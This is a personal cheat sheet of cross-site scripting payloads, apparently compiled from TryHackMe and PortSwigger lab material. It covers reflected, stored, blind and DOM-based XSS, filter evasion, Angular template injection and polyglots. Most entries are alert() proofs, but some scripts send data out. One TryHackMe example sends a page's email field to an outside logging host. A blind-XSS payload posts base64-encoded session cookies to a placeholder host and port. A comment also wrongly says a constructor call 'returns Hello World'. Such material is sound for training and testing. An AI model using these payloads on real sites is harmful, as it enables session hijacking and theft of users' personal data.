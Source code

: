# Cross-site Scripting

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

http://www.xss-payloads.com/










## Reflected XSS
The server-side application processes data from a request and echoes the data in the response. 

User-supplied data in an HTTP request is included in the webpage source without any validation.
The JavaScript is executed because it is in the HTTP response

Only affects the person making the web request.


`<script>alert(window.location.hostname)</script>`
`<script>alert(“Hello World”)</script>`
`</textarea><script>alert('THM');</script>`


```
// from "https://tryhackme.com/r/room/thatstheticket"
</textarea>
<script>
var i = new Image(); i.src="//TEST.1ba665d99ad23c9ad4b5a119f3a86aef.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML;
</script>

</textarea>
<script>
var email = (document.getElementById('email').innerHTML).replace("@","-at-");
var my_address = "1ba665d99ad23c9ad4b5a119f3a86aef.log.tryhackme.tech";
var request = new XMLHttpRequest();
request.open("GET","http://" + email + "-musyoka-" + my_address, false); // with second parameter as 'true'(async) also works
request.send();
</script>
```



`<script>alert(document.cookies)</script>`
`<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>`

`/images/cat.jpg" onload="alert('THM');`

`"onmouseover="alert(1)` Example:
<input type="text" placeholder="Search the blog..." name="search"
value="[PAYLOAD HERE]">









### Avoid Filters
`<sscriptcript>alert('THM');</sscriptcript>`


Search:
`\"-alert(1)}//`












## Stored XSS
Is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

Example: post comments stored in a database.

### Blind XSS
Is similar to a stored XSS (which we covered in task 4) in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.


Tool: <https://github.com/mandatoryprogrammer/xsshunter-express>


Examples:
`</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`



anchor href attribute
<a href="javascript:alert(1)">








## DOM-based XSS
When JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink that supports dynamic code execution, such as `eval()` or `innerHTML`.

The most common source for DOM XSS is the URL, which is typically accessed with the `window.location` object.

The "sinks" manipulate the DOM, and then the DOM causes the JavaScript to execute.

- document.write
`"><svg onload=alert(1)>`
`fooBar" onload="alert(1)`

- innerHTML sink using source location.search
`<img src=1 onerror=alert(1)>`
`<img src='0' onerror=alert(1)>`




## PHP

### Form
this url
```
http://www.example.com/test_form.php/%22%3E%3Cscript%3Ealert('hacked')%3C/script%3E

#or

http://www.example.com/test_form.php/<script>location.href('http://www.hacked.com')</script>
```
translated to:
```
<form method="post" action="test_form.php/"><script>alert('hacked')</script>
```




### DOM XSS in jQuery anchor href attribute sink using `location.search`
```
<a id="backLink" href="/">Back</a>
<script>
	$(function() {
		$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
	});
</script>
```

original: https://example.path/feedback?returnPath=/
modified: https://example.path/feedback?returnPath=javascript:alert(document.cookie)



### escape javaScript
`';alert('THM');//`



### Angular
`{{$on.constructor('alert(1)')()}}`
`{{$eval.constructor('alert(1)')()}}`
`{{$resume.constructor('alert(1)')()}}`
- The constructor data property of an Object instance returns a reference to the constructor function that created the instance object. <https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor>

Explanation:
`Function('console.log("Hello World")')(); // anonymous function made using the Function constructor`

```
function test() {
	console.log('Hello World');
}

console.log(test.constructor); // returns "Hello World"

let mySecondFunction = test.constructor('console.log("Hello World 2!")');
mySecondFunction(); // returns "Hello World 2!"
```


















## Polyglots
An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
